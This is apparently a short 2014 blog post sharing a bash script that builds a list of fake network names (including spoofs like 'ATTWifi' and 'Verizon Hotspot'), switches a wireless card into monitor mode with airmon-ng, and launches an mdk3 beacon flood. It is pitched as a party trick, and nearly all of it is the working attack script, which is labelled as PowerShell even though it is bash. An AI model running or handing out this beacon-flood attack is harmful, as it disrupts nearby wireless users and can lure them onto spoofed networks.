 ﻿---
title:  Beacon Attack Script
date:   2014-05-20 00:00:00 -0500
categories: IT
---

Using MDK3 to create a bunch of fake wireless networks is a neat party trick. This bash script will create a text file with a list of network names, defined in a the "networks" array, if it doesn't already exist.

Then the script will configure the interface by putting it in monitor mode. Finally the script will fire off MDK3 using the text file created earlier.

You must have aircrack and mdk3 installed.

```powershell
networks=(
"FreeWifi"
"FBI Van #12"
"Customer Wireless"
"Visitors"
"ATTWifi"
"Verizon Hotspot"
"l33t haxor net"
)

if [ -f ssid_names ]
then
echo -e "\e[1;31mDeleting list of network names\e[0m"
rm -f ssid_names
fi

echo -e "\e[1;32mCreating list of network names\e[0m"
for i in "${networks[@]}"
do
echo $i >> ssid_names
done

if [[ -n $(airmon-ng | grep mon0) ]]
then
echo -e "\e[1;32mMon0 interface exists\e[0m"
else
echo -e "\e[1;32mStarting AirMon on wlan0\e[0m"
airmon-ng start wlan0
fi

echo -e "\e[1;32mBegin beacon flood on mon0\e[0m"
mdk3 mon0 b -c 11 -f ssid_names
```
